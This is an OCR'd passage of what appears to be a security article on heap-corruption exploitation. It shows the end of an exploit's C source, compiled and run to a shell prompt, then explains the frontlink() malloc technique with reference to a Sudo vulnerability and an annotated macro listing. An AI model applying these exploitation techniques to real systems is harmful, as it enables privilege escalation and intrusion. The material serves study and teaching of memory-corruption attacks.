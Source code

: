 ```c
        *p = '\0';

        /* the execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
EOF

$ make exploit
cc     exploit.c   -o exploit

$ ./exploit
bash$
```
<PRE>

------[ 3.6.2 - The frontlink() technique ]-----------------------------

--------[ 3.6.2.1 - Concept ]-------------------------------------------

Alternatively an attacker can exploit the frontlink() macro in order
to abuse programs which mistakenly manage the heap. The frontlink()
technique is less flexible and more difficult to implement than the
unlink() technique, however it may be an interesting option since its
preconditions are different. Although no exploit is known to apply this
frontlink() technique in the wild, a proof of concept is presented in
3.6.2.2, and it was one of the possible techniques against the Sudo
vulnerability.

</PRE>
```c
#define frontlink( A, P, S, IDX, BK, FD ) {            \
    if ( S < MAX_SMALLBIN_SIZE ) {                     \
        IDX = smallbin_index( S );                     \
        mark_binblock( A, IDX );                       \
        BK = bin_at( A, IDX );                         \
        FD = BK->fd;                                   \
        P->bk = BK;                                    \
        P->fd = FD;                                    \
        FD->bk = BK->fd = P;                           \
[1] } else {                                           \
        IDX = bin_index( S );                          \
        BK = bin_at( A, IDX );                         \
        FD = BK->fd;                                   \
        if ( FD == BK ) {                              \
            mark_binblock(A, IDX);                     \
        } else {                                       \
[2]         while ( FD != BK && S < chunksize(FD) ) {  \
[3]             FD = FD->fd;                           \
            }                                          \
[4]         BK = FD->bk;                               \
        }                                              \
        P->bk = BK;                                    \
        P->fd = FD;                                    \
[5]     FD->bk = BK->fd = P;                           \
    }                                                  \
}
```
<PRE>
